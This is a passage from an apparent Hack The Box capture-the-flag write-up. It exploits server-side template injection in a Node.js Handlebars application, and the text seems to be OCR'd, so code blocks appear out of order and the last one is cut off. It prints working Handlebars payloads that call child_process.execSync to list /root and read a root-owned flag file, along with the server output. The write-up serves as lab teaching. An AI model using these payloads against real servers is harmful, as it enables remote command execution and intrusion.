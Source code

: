 Now click on the "Send" button.


In the response we see that the output of the whoami command is root. This means that we have

successfully run system commands on the box and also that the web server is running in the context of the
root user. We can now proceed one of two ways. We can either get a Reverse Shell on the affected system,
or directly grab the flag. In this writeup we will focus on the latter.

We know that the flag is most probably located in /root but we can also verify this. Let's change our

command from whoami to ls /root to list all files and folders in the root directory.

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('ls
/root');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
```

URL encode the payload and send it as shown before. In the response we see the following.

The flag is indeed in /root and is called flag.txt. Let's modify our payload in order to read it.

The flag is shown in the server response and can be copied and pasted to the Hack The Box platform.

```
{{/with}}
{{/with}}
```
```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
Backend
flag.txt
snap
```
```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('cat
/root/flag.txt');"}}
```